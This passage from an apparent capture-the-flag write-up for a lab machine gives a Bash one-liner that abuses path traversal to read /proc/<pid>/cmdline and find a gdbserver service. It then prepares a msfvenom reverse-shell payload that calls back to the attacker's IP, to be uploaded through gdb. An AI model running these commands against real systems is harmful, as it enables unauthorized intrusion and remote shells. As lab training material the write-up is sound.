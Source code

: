 To achieve this, we'll need the process ID (PID) for the service, and since it's unknown, we can fuzz for all possible PIDs, attempting to read the command line for each.

For this, we can use the following one-liner Bash script:

```bash
for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "http://airplane.thm:8000/?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```
{: .wrap }

The script creates a `for` loop to iterate through numbers from 1 to 1000, and for every number, it tries to read the `/proc/<number>/cmdline` file, and if the file is not empty, it echoes the output.

Upon running it, we get the command for the service on port 6048 with `/proc/539/cmdline`. It is running `gdbserver`.

```console
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "http://airplane.thm:8000/?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
...
539 : /usr/bin/gdbserver 0.0.0.0:6048 airplane
...
```
{: .wrap }


### Abusing gdbserver To Get A Shell

Now that we know `gdbserver` is running on port `6048`, we can use the method from [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver#upload-and-execute) to get a shell.

Basically, what we will do is generate a reverse shell payload as an `elf` file. Connect to the remote gdb server, upload our binary to the server, change the executable to debug to our binary, and run it.

First, creating the reverse shell payload using `msfvenom`.

```console
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 PrependFork=true -f elf -o binary.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: binary.elf
```

Starting the `gdb` and connecting to the remote server.

```console
$ gdb binary.elf

(gdb) target extended-remote airplane.thm:6048
Remote debugging using airplane.thm:6048
```
